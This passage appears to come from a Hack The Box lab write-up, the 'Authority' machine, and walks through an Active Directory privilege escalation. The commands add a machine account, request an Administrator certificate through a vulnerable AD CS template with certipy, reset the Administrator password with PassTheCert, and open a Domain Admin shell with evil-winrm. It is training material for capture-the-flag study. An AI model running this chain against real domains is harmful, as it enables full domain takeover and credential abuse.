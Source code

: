 - Host file update:
    ```
    echo 10.129.126.53 authority.authority.htb authority.htb | sudo tee -a /etc/hosts
    ```

---

## Privilege Escalation via AD CS

- Add machine account:
    ```
    impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'TEST01' -computer-pass 'test12345' -dc-ip 10.129.126.53
    ```

- Request admin certificate:
    ```
    certipy req -u TEST01$ -p test12345 -ca AUTHORITY-CA -dc-ip 10.129.126.53 -template 'CorpVPN' -upn 'Administrator' -debug
    ```

- Handle clock skew error (if necessary):
    ```
    sudo ntpdate 10.129.126.53
    ```

---

## Abusing Certificates & Final Domain Admin Access

- Extract certificate and key:
    ```
    certipy cert -pfx administrator.pfx -nokey -out user.crt
    certipy cert -pfx administrator.pfx -nocert -out user.key
    ```

- Use PassTheCert to reset Administrator’s password:
    ```
    python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.126.53 -target administrator -new-pass
    # Set new password: 5hGyWKrlgGloGkcS6PFZELzUk0B6yaN8
    ```

- Obtain DA shell:
    ```
    evil-winrm -i 10.129.126.53 -u administrator -p 5hGyWKrlgGloGkcS6PFZELzUk0B6yaN8
    ```

---

## Stepwise PoC
